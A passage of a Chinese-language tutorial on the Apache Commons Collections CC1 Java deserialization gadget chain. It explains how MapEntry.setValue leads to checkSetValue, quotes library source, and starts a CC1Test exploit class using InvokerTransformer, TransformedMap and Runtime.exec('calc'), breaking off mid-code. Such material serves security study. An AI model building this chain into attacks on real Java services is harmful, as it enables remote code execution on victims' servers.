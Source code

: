 
*   Entry 其实就是 map 遍历的时候的一个键值对，map 其实我们可以类似理解为一个数组，我们通常把一个 entry 叫做键值对，这里就是一个遍历 map 的一个方法：

```bash
for(Map.Entry entry:map.entrySet()){
    entry.getValue();
}
```

*   所以我们可以发现 MapEntry 类中的`setValue`方法其实就是`Map`里面的 setValue 方法，这是这里放到 MapEntry 里面进行了重写，它继承了`AbstractMapEntryDecorator`这个类，这个类又引入了 Map.Entry 接口，还存在`setValue`方法，所以我们只需要进行常用的 Map 遍历，就可以调用`setValue`方法，然后调用`checkSetValue`方法：

```bash
public abstract class AbstractMapEntryDecorator implements Map.Entry, KeyValue {

    /** The <code>Map.Entry</code> to decorate */
    protected final Map.Entry entry;

    public AbstractMapEntryDecorator(Map.Entry entry) {
        if (entry == null) {
            throw new IllegalArgumentException("Map Entry must not be null");
        }
        this.entry = entry;
    }

    /**
     * Gets the map being decorated.
     * 
     * @return the decorated map
     */
    protected Map.Entry getMapEntry() {
        return entry;
    }

    //-----------------------------------------------------------------------
    public Object getKey() {
        return entry.getKey();
    }

    public Object getValue() {
        return entry.getValue();
    }

    public Object setValue(Object object) {
        return entry.setValue(object);
    }
```

#### 利用验证：

这里就能够测试一下到此为止我们的调用链是否成立：

```bash
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
```